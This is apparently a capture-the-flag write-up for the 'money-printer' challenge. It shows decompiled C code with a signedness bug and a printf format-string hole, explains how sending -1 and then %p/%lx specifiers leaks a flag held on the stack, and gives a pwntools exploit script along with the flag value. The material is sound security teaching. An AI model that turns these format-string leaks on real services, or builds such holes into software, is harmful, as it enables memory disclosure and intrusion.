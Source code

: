 # money-printer
<p align="center">
  <img src="Attachments/Description.png" />
</p>

## FLAG:
`sdctf{d4mn_y0u_f0unD_4_Cr4zY_4M0uN7_0f_M0n3y}`
#
## Solution
First of all, I decompiled the [executable file](Attachments/money-printer) provided by the challenge

```c
undefined8 main(void)
{
    undefined8 uVar1;
    int64_t in_FS_OFFSET;
    int var_bch;
    int var_b8h;
    uint64_t user_input;
    char *s;
    char *format;
    int64_t canary;
    
    canary = *(int64_t *)(in_FS_OFFSET + 0x28);
    setbuf(_stdin, 0);
    setbuf(_stdout, 0);
    setbuf(_stderr, 0);
    var_b8h = 100;
    user_input._0_4_ = 0;
    var_bch = 0;
    *(int64_t *)0x0 = fopen("flag.txt", data.00400ad8);
    if (*(int64_t *)0x0 == 0) {
        printf(data.00400af7, "no flag file found!");
        exit(0);
    }
    fgets(&s, 0x2d, stack0xffffffffffffff50);
    while (0 < var_b8h) {
        printf("I have %d dollars, how many of them do you want?\n", var_b8h);
        __isoc99_scanf(data.00400b32, &var_bch);
        getchar();
        if (var_bch < 100) {
            if (var_bch < var_b8h) {
                printf("you can have %d dollars!\n", var_bch);
                var_b8h = var_b8h - var_bch;
                user_input._0_4_ = (uint32_t)user_input + var_bch;
            } else {
                puts("I don\'t have that much!");
            }
        } else {
            puts("you clearly can\'t get that much!");
        }
        if (1000 < (uint32_t)user_input) {
            printf("wow you\'ve printed money out of thin air, you have %u!!! Is there anything you would like to say to the audience?\n"
                   , (uint32_t)user_input);
            fgets(&format, 100, _stdin);
            printf("wow you said: ");
            printf(&format);
            puts("\nthat\'s truly fascinating!");
            exit(0);
        }
    }
    uVar1 = 0;
    if (canary != *(int64_t *)(in_FS_OFFSET + 0x28)) {
        uVar1 = __stack_chk_fail();
    }
    return uVar1;
}
```

In the `main` we can see what we have to do to have the flag (that is loaded in the stack):

1. Have more than 1000 dollars.
2. Using format string to read stack.

To get around the first step, since user input is evaluated as an `unsigned`, you can pass `-1` so that it evaluates to the maximum value reachable by an `unsigned int` in C.

To read the flag from the stack I used gdb, locally, to figure out where the flag was loaded and the format string "`%p %p %p %p %p %p %p %p %p %p %p %p`" to understand the offset from which to start to read the flag.

![gdb](Attachments/gdb.png)

So based on the information I found, I wrote the following [script](Attachments/solve.py) to get the flag

```python
from pwn import *

source = "money.sdc.tf"
port = 1337
binary = "./money-printer"

if args.REMOTE:
	r = remote(source, port)
else:
	r = process(binary)

if args.DEBUG:
	context.log_level = 'debug'

r.sendlineafter(b"I have 100 dollars, how many of them do you want?\n", b"-1")

payload = ""
for i in range(10, 16):
	payload += f"%{i}$lx "
log.info(f"{payload = }")

r.sendlineafter(b"the audience?\n", payload.encode())

flag_enc = r.recvline().decode().strip().split()[3:]
flag = ""
for block in flag_enc:
	flag += unhex(block).decode()[::-1]
flag += "}"

log.success(f"{flag = }")

r.close()
```